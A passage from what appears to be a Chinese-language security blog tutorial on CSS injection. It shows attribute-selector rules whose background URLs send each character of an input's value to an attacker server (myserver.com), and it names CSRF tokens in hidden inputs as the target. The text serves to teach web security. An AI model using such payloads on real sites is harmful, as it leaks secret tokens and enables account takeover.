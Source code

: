 而第二個特性是：可以利用 CSS 發出 request，例如說載入一張伺服器上的背景圖片，本質上就是在發一個 request。

假設現在頁面上有一段內容是 `<input name="secret" value="abc123">`，而我能夠插入任何的 CSS，我可以這樣寫：

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

會發生什麼事情？

因為第一條規則有順利找到對應的元素，所以 input 的背景就會是一張伺服器上的圖片，而瀏覽器就會發 request 到 `https://myserver.com?q=a`。

因此，當我在 server 收到這個 request 的時候，我就知道「input 的 value 屬性，第一個字元是 a」，就順利偷到了第一個字元。

這就是 CSS 之所以可以偷資料的原因，透過屬性選擇器加上載入圖片這兩個功能，就能夠讓 server 知道頁面上某個元素的屬性值是什麼。

好，現在確認 CSS 可以偷屬性的值了，接下來有兩個問題：

1. 有什麼東西好偷？
2. 你剛只示範偷第一個，要怎麼偷第二個字元？

我們先來討論第一個問題，有哪些東西可以偷？通常都是要偷一些敏感資料對吧？

最常見的目標，就是 CSRF token。如果你不知道什麼是 CSRF，可以先看看我之前寫過的這一篇：[讓我們來談談 CSRF](https://blog.huli.tw/2017/03/12/csrf-introduction/)（話說我有打算寫新的 CSRF 系列文，拖稿中，想看的話可留言催稿）。

簡單來說呢，如果 CSRF token 被偷走，就有可能會被 CSRF 攻擊，總之你就想成這個 token 很重要就是了。而這個 CSRF token，通常都會被放在一個 hidden input 中，像是這樣：

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

我們該怎麼偷到裡面的資料呢？

## 偷 hidden input

對於 hidden input 來說，照我們之前那樣寫是沒有效果的：

